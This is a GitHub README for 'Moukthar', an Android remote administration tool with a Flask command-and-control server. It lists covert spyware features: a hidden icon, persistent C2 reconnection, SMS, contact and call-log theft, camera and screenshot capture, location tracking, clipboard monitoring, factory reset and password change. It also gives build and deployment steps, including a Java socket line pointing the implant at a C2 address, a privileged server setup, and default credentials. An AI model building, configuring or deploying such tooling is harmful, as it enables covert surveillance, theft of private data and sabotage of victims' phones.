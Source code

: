 # Moukthar

Codebase foundation for an Android Remote Administration Tool with C2 Server

## Features
- Persistent reconnection with C2 regardless if the client application is closed or placed in background or the device is restarted or current connection is interrupted
- Hidden App Icon
- Send/Read SMS
- Write/Read Contacts
- Read Call Log
- Dial USSD code without opening dialer (API 26+)
- Take Picture (Front/Back camera)
- Take Screenshot
- Make Phone Call
- List Installed Apps
- Vibrate Phone
- Get Device Location
- Change Wallpaper
- Factory Reset Device
- Reboot Device
- Change Device Password
- Clipboard Monitoring

![Android](https://img.shields.io/badge/Android-3DDC84?style=for-the-badge&logo=android&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-FFFFFF?style=for-the-badge&logo=flask&logoColor=black)
![Java](https://img.shields.io/badge/java-%23ED8B00.svg?style=for-the-badge&logo=java&logoColor=white)

## NB
```
USERNAME: android
PASSWORD: the rastafarian in me
```
<!-- PEM PASS PHRASE: android -->
Replace the domain value with your ip/domain in ```__init__.py``` wherever you see the line
```python
resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
```
to enable Remember Me functionality in the Login page.

Specify the ip/domain of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).

```java
Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
```

## Build APK
- Open up the client folder as a project in android studio 
- Replace C2_ADDRESS with the ip address of your server here: https://github.com/Tomiwa-Ot/moukthar/blob/9d7f431bf8eb8af1490b7412818b123354504951/client/app/src/main/java/com/ot/androidrat/MainService.java#L32
- For building the apk:
https://developer.android.com/studio/run

## Production Environment Setup
For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
```console
user@pc1:~/moukthar$ chmod +x ./server/setup.sh
user@pc1:~/moukthar$ sudo ./server/setup.sh
```

### Nginx
```/etc/nginx/sites-available/moukthar```
```nginx
server{
    listen 80;
    server_name moukthar;
    access_log /var/log/nginx/moukthar.access.log;
    error_log /var/log/nginx/moukthar.error.log;

    location / {
       include proxy_params;
       proxy_pass https://127.0.0.1:5001;
    }
}
```
## Screenshots
![Login Page](screenshots/login.png)
![Dashboard](screenshots/dashboard.png)
![Terminal](screenshots/terminal.png)
![SMS](screenshots/sms.png)
![Files](screenshots/files.png)
![Reset Password](screenshots/reset%20password.png)
![Client app requesting permissions 1](screenshots/app-permission1.png)
![Client app requesting permissions 2](screenshots/app-permission2.png)
![Client app](screenshots/client-app.png)

## Warning
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

